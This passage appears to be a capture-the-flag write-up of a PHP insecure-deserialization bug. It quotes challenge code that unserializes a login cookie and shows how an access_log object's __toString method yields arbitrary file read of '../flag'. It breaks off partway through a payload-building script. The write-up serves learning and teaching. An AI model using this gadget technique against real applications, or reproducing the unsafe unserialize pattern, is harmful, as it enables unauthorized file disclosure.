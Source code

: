 ```php
if(isset($_COOKIE["login"])){
    try{
        $perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
        $g = $perm->is_guest();
        $a = $perm->is_admin();
    }
    catch(Error $e){
        die("Deserialization error. ".$perm);
    }
}
```

Conveniently, the `access_log` class in authentication.php has the following `__toString()` method:

```php
    function __toString() {
        return $this->read_log();
    }

    function append_to_log($data) {
        file_put_contents($this->log_file, $data, FILE_APPEND);
    }

    function read_log() {
        return file_get_contents($this->log_file);
    }
```

`__toString` is one of the PHP magic methods that override PHP's default behaviour. This method is called when the object is converted to a string. So if we could get the above `$perm` variable to be our custom `access_log` object, we could achieve arbitrary file read on the target system.

To do this, we simply serialize our custom `access_log` object, where we set `log_file` to `../flag`.

This can be done with the following script:

```php
<?php 

    class access_log
    {
        public $log_file;

        function __construct($lf) {
            $this->log_file = $lf;
        }

        function __toString() {
            return $this->read_log();
        }

        function append_to_log($data) {
            file_put_contents($this->log_file, $data, FILE_APPEND);
        }

        function read_log() {
            return file_get_contents($this->log_file);
        }
    }

    class permissions
    {
    public $username;
    public $password;

```